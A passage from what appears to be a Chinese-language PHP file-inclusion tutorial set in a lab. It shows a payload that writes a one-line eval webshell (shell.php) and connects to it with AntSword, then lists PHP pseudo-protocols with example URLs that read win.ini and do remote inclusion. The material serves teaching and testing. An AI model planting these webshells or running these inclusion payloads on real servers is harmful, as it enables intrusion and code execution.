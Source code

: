 ```
<?php fputs(fopen("shell.php", "w"),"<?php @eval($_POST['pass']);?>")?>
```

这句话的意思就是当访问这个php代码后就会在当前目录生成一个shell.php文件，并且这个文件中含有一句话木马。

![image-20230413154052258](https://s2.loli.net/2023/04/13/PyQGmFUbOiDLwve.png)

通过查看服务器网站根目录，可以看到这里已经创建了一个名为shell.php的文件。那么我们通过这个文件使用蚁剑进行连接。

![image-20230413154101364](https://s2.loli.net/2023/04/13/92t8csnRJ6I53uk.png)

通过上面的图片可以看到，我们已经成功连接了。这里需要注意的是，我们这个地址是知道的，若在实际环境中操作的时候可能需要注意查找路径。

## 2.4. 伪协议读取

### 2.4.1. PHP伪协议介绍

```
file://    #访问本地文件系统
http://    #访问HTTPs网址
ftp://     #访问ftp URL
php://     #访问输入输出流
zlib://     #压缩流
data://    #数据
ssh2://    #security shell2
expect://  #处理交互式的流
glob://   #查找匹配的文件路径
```

![](https://s2.loli.net/2023/04/13/92t8csnRJ6I53uk.png)

### 2.4.2. PHP伪协议利用方式

这里举几个例子进行演示一下，由于部分伪协议需要且版本并且需要调配置，这里就不来回切换了。

#### 2.4.2.1. file利用方式

file其实和绝对路径读取差不多。

```
URL：http://192.168.10.150/1.php/?name=file://C:/Windows/win.ini
```

![image-20230413154134833](https://s2.loli.net/2023/04/13/y7uCmKYRT3diItV.png)

#### 2.4.2.2. http利用方式

其实http这里的利用方式，除了能够跳转，还能进行远程包含进行漏洞执行。

```
URL：http://192.168.10.150/1.php/?name=http://www.baidu.com
```

![image-20230413154203527](https://s2.loli.net/2023/04/13/DYNBJnPwIlHV3Oj.png)
